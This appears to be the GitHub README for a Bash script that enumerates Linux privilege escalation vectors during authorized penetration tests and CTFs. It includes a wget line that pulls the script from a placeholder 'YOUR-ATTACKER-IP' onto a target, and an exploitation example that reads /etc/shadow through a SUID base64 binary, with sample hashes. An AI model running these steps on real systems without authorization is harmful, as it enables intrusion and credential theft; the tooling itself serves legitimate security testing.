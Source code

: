 # Linux PrivEsc Checker

A simple Bash script to automate the search for common Linux privilege escalation vectors.

This script is designed to be lightweight and easy to upload to a target machine during a penetration test or CTF to quickly enumerate potential weaknesses.

## 🚀 Demo

Here is the script in action, identifying a SUID binary (`base64`) and other potential vectors.

<img width="2580" height="1390" alt="Snapshot_2025-10-25_07-53-10" src="https://github.com/user-attachments/assets/bdafbf82-5dc3-4e36-a086-cac18790758d" />


## ✨ Features

This script automatically hunts for:

  * **🕵️‍♂️ SUID Binaries:** Scans for suspicious SUID binaries (like `base64`, `nmap`, `find`, etc.) that can be used to escalate privileges.
  * **⚙️ Linux Capabilities:** Searches for binaries with dangerous capabilities (e.g., `cap_sys_admin`, `cap_setuid`).
  * **📁 NFS Exports:** Checks `/etc/exports` for insecure `no_root_squash` configurations.
  * **⏰ Writable Cron Jobs:** Looks for `root` cron jobs that execute scripts or binaries in writable locations.
  * **🛡️ Vulnerable Versions:** Performs a basic check against known vulnerable versions of `sudo` and the Kernel.

## 💻 Usage

### 1\. Clone the Repository

```bash
git clone https://github.com/MS-0x404/Linux-PrivEsc-Checker.git
cd Linux-PrivEsc-Checker
chmod +x privesc.sh
./privesc.sh
```

### 2\. On Target Machine

This is the recommended method for use during a pentest, as seen in the demo video.

1.  Navigate to a writable directory (e.g., `/tmp`):

    ```bash
    cd /tmp
    ```

2.  Download the script from a web server you control (e.g., Python's `http.server`):

    ```bash
    wget http://YOUR-ATTACKER-IP:8000/privesc.sh
    ```

3.  Make it executable:

    ```bash
    chmod +x privesc.sh
    ```

4.  Run it\!

    ```bash
    ./privesc.sh
    ```

## 💡 Example: SUID Exploit

```bash
$ ./privesc.sh

    [...]
    Ricerca Privilege Escalation...

[+] Possibile PrivEsc tramite SUID:
  └─ /usr/bin/base64
[+] Possibile PrivEsc tramite Capabilities:
  └─ /usr/bin/python3.13 cap_setuid=eip
[-] Nessuna PrivEsc tramite NFS
[...]
```

**Exploitation:**

```bash
$ base64 /etc/shadow | base64 -d
ubuntu:$y$j9T$vTJesvSYgTtcVv//OGDCPytz0b$HVjAkS46CYIilgc..:19999:7:::
daemon:*:19193:0:99999:7:::
[...]
test:$y$j9T$vTJesvSYgTtcVv//OGDCPytz0b$HVjAkS46CYIilgc..:19999:7:::
```

-----

## ⚠️ Disclaimer

This tool is intended for **educational and authorized testing purposes ONLY**. Do not use this script on any system you do not have explicit permission to test. The author is not responsible for any misuse or damage caused by this script.
